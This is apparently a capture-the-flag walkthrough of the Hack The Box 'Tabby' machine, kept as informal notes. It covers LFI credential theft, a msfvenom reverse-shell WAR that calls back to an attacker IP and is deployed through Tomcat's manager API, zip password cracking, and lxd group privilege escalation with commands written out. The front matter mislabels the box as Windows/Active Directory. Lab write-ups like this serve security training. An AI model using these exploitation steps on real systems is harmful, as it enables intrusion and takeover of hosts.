

+++
title = "HTB - Tabby"
date = 2025-03-11
+++

---
title: "Tabby - Hack the Box"
date: 2025-1-28 22:58:20 -0400
categories: [Hack the Box]
tags: [Walkthrough, Windows, Active-Directory, Password-Cracking, Bloodhound, Evil-WinRM, Easy]
image: /assets/Timelapse.png
---
</img>

### Scan
```
nmap -sV -sC -p- --open 10.10.10.194
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 22:58 EST
Nmap scan report for 10.10.10.194
Host is up (0.14s latency).
Not shown: 65502 closed tcp ports (reset), 30 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.33 seconds
```

### Enumeration
True to form here, theres a simple story in our scan. Likely a web exploitation with a later stage SSH pivot. Visiting the port 80 instance of the site doesn't yield much information, but we can tell from the 8080 banner that we're dealing with a Tomcat instance on version 9. There's also documentation about default configurations. This is important, as we get insight as to what the file structure may be like internally on the box.

</img>

I found this interesting and kept poking around the instance on port 80. I hovered over the different links to see if any led anywhere. The only one that didn't redirect back to the homepage was the News tab, which pointed towards `news.php?file=statement`. This suggests dangerous LFI capabilities. When we visit the page, there's information about a previous breach 


On the 80 instance, links dont work. Added to etc hosts and now one points to news.php?file=statement.
Talks about previous data breach. Checked ferox but nothing of note.
If we notice the file statemnt in the link above, this is possible LFI. We can view /etc/passwd
Theres a user named ash. save for later.
remember where default tomcat users are stored. Reference other box when writing report. `/etc/tomcat9/tomcat-users.xml`
You'd think this would work, truth is it returns nothing. 0xdf referenced another configuration that leads to a different path: `/usr/share/tomcat9/etc/tomcat-users.xml`. Once here, view source to find credentials `tomcat:$3cureP4s5w0rd123!`
visit 8080 and go to the webapp admin portal.
It doesnt work with the manager webapp, but it does with the host manager. Malicious War file from here?
host-manager admin gui doesn't ahve access to execute anything. we'd need the manager gui. 
0xdf referenced our user having manager-script rights, not sure how he figued it out though...
Theres a way to access a text based version of the manager gui, using `http://{host}:{port}/manager/text/{command}?{parameters}`. Its referenced here: https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands
we can `curl` to verify `curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list`
We can create our war with: `msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=443 -f war -o rev.10.10.14.18-443.war`
Then, to denote an upload with curl, we use `--upload-file` as a tag: `curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/li0t --upload-file pwn.war`
start our listener on 443, then execute the war with: `curl http://10.10.10.194:8080/li0t`

### Privilege Escalation
We need to pivot to the `ash` user from earlier. Remember the referenced security vulnerability. IF we look at it through the backend, we may be able to find some information
in var/www/html/ When we cat out the news.php, we see it calls from files directory. Viewing the directory, theres a statement for the site, and also a backup file owned by ash.
I doubt we'll be able to touch it here. We can use python to get it back to our machine. 
Tried unzipping, but looks like we'll need a password. we can use zip2john `zip2john 16162020_backup.zip > 16162020_backup.zip.john`
`john 16162020_backup.zip.john --wordlist=/usr/share/wordlists/rockyou.txt`
it cracks instantly with `admin@it`
The password yields access to the archive, but theres not much here. We can `su` to ash though.
USER:`c8632d9acf417d6879864a3afd4fbff6`

Getting on the user, we can run `id` and figure out what the shell is running as, and what groups the user are a part of.
Not too familiar here, but we see we're a member of the lxd group. Chat shows why this is not so good:
```
LXD access can lead to **root privilege escalation** in Linux because LXD containers run with **root privileges** on the host. If a user is part of the lxd group, they can:

1. **Create a privileged container** that has access to host resources.

2. **Mount the host filesystem** into the container, giving them access to sensitive files like /etc/shadow or /root/.ssh.

3. **Escalate privileges** by modifying system files, adding an SSH key, or setting a new root password.

  

Since LXD containers can be configured to interact with host devices and filesystems, a malicious user with lxd group access can effectively break out and gain full **root control** over the system
```

Cool post about it here: https://blog.m0noc.com/2018/10/lxc-container-privilege-escalation-in.html?m=1

We can cd to /dev/shm because we have access to edit. 
Lot's of issues over this shell. Pivoting to SSH
go to ash home dir. then chain `mkdir .ssh`, `cd .ssh`, `ssh-keygen -f id_rsa, `cat id_rsa.pub > authorized_keys`
then, cat out the key with `cat id_rsa`, copy to own machine wokring dir in `id_rsa` folder. Chmod to 600, then ssh into the box with `ssh -i id_rsa ash@10.10.10.194`

Now we've got a solid ssh connection, everything should run smoothly. Make sure youre in home dir on victim:
```
ash@tabby:echo QlpoOTFBWSZTWaxzK54ABPR/p86QAEBoA//QAA3voP/v3+AACAAEgACQAIAIQAK8KAKCGURPUPJGRp6gNAAAAGgeoA5gE0wCZDAAEwTAAADmATTAJkMAATBMAAAEiIIEp5CepmQmSNNqeoafqZTxQ00HtU9EC9/dr7/586W+tl+zW5or5/vSkzToXUxptsDiZIE17U20gexCSAp1Z9b9+MnY7TS1KUmZjspN0MQ23dsPcIFWwEtQMbTa3JGLHE0olggWQgXSgTSQoSEHl4PZ7N0+FtnTigWSAWkA+WPkw40ggZVvYfaxI3IgBhip9pfFZV5Lm4lCBExydrO+DGwFGsZbYRdsmZxwDUTdlla0y27s5Euzp+Ec4hAt+2AQL58OHZEcPFHieKvHnfyU/EEC07m9ka56FyQh/LsrzVNsIkYLvayQzNAnigX0venhCMc9XRpFEVYJ0wRpKrjabiC9ZAiXaHObAY6oBiFdpBlggUJVMLNKLRQpDoGDIwfle01yQqWxwrKE5aMWOglhlUQQUit6VogV2cD01i0xysiYbzerOUWyrpCAvE41pCFYVoRPj/B28wSZUy/TaUHYx9GkfEYg9mcAilQ+nPCBfgZ5fl3GuPmfUOB3sbFm6/bRA0nXChku7aaN+AueYzqhKOKiBPjLlAAvxBAjAmSJWD5AqhLv/fWja66s7omu/ZTHcC24QJ83NrM67KACLACNUcnJjTTHCCDUIUJtOtN+7rQL+kCm4+U9Wj19YXFhxaXVt6Ph1ALRKOV9Xb7Sm68oF7nhyvegWjELKFH3XiWstVNGgTQTWoCjDnpXh9+/JXxIg4i8mvNobXGIXbmrGeOvXE8pou6wdqSD/F3JFOFCQrHMrng= | base64 -d > bob.tar.bz2


ash@tabby: lxd init #Select the defaults for all)

> 
ash@tabby:/dev/shm$ lxc image import bob.tar.bz2 --alias bobImage
ash@tabby:/dev/shm$ lxc init bobImage bobVM -c security.privileged=true
Creating bobVM
ash@tabby:/dev/shm$ lxc config device add bobVM realRoot disk source=/ path=r
Device realRoot added to bobVM
ash@tabby:/dev/shm$ lxc start bobVM


ash@tabby:/dev/shm$ lxc exec bobVM -- /bin/sh
# cd /r
# ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
# cd root
# ls
root.txt  snap
# cat root.txt

```

ROOT:`c41952e4197d93360ccc11641414d678`


